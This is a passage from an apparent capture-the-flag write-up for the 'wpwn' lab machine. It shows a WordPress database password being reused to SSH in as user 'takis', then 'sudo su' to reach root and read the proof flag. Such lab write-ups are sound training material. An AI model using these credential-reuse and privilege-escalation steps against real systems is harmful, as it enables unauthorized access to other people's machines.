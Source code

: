 > So we identified that the user `takis` exists and that the `wordpress` installation uses a complicated database password (`R3&]vzhHmMn9,:-5`). It is worth a try to ssh into the machine with `takis:R3&]vzhHmMn9,:-5`.
{: .prompt-info }

```bash
ssh takis@192.168.55.123
takis@wpwn:~$
```

It worked! Now we check if `takis` is able switch to the user `root`

```
takis@wpwn:~$ sudo su
root@wpwn:/home/takis#
```

We got root access. Get the second flag now :-)

```
root@wpwn:/home/takis# cd /root
root@wpwn:~# ls
proof.txt  root.txt
root@wpwn:~# cat proof.txt 
f****************************1
```
  
Pwned! <@:-)
